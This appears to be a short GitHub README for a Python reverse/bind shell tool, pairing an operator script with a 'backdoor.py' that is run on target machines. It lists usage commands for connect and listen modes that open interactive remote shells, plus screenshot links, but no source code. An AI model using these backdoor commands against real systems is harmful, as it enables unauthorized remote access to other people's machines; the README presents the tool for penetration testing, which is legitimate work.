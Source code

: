 Python Reverse-Bind Shell
<h1>Windows support not yet</h>

Usage:
        >>chmod +x akhyls.py
        
        chmod +x backdoor.py

        >>./akhyls.py -R <PORT>                 (reverse shell)(own computer)
        >>./backdoor.py --c <IP> <PORT>         (connect mode)(vulnerable machines for penetration testing)
        >> Interactive shell to check >> use command 'shell_check'
        >>Interactive shell to spawn >> use command 'interactive_shell'
<img src="https://preview.ibb.co/kT9JLz/1.png">
<img src="https://image.ibb.co/nmjBxe/Screen_Shot_08_23_18_at_10_37_PM.png">

        
        OR              OR              OR
        
        >>./backdoor.py --l <PORT>              (listen mode)(vulnerable machines for penetration testing)
        >>./akhyls.py -B <IP> <PORT>            (bind shell)(own computer)
        >> Interactive shell to check >> use command 'shell_check'
        >>Interactive shell to spawn >> use command 'interactive_shell'

<img src="https://image.ibb.co/bCFvOK/Screen_Shot_08_23_18_at_10_38_PM.png">      
<img src="https://preview.ibb.co/b3ffYK/Screen_Shot_08_20_18_at_04_52_PM_001.png">

